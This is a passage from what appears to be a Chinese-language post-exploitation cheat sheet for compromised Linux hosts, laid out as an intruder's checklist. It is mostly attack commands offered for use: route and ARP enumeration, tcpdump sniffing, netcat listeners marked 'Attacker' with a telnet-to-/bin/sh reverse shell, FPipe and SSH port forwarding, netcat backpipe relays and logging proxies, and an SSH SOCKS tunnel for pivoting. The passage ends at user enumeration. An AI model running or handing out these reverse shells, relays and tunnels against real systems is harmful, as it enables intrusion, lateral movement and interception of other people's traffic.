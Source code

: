 ```text
arp -e route /sbin/route -nee
```

**数据包嗅探是否可能？可以看到什么？**

```text
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

注意：tcpdump tcp dst [ip] [端口]和tcp dst [ip] [端口]

## **我们有shell吗？**

```text
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results) telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445
```

## **是否可以进行端口转发？重定向流量并与之交互**

注意：FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地IP]

```text
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
```

注意：ssh-[L / R] [本地端口]：[远程IP]：[远程端口] [本地用户] @ [本地IP]

```text
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
```

注意：mknod backpipe p; nc -l -p [远程端口]backpipe

```text
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
```

可以使用隧道吗？在本地远程发送命令

```text
ssh -D 127.0.0.1:9050 -N [username]@[ip] proxychains ifconfig
```

## **机密信息和用户**

## **你是谁？谁登录？谁已经登录？那里还有谁？谁能做什么？**

id

who
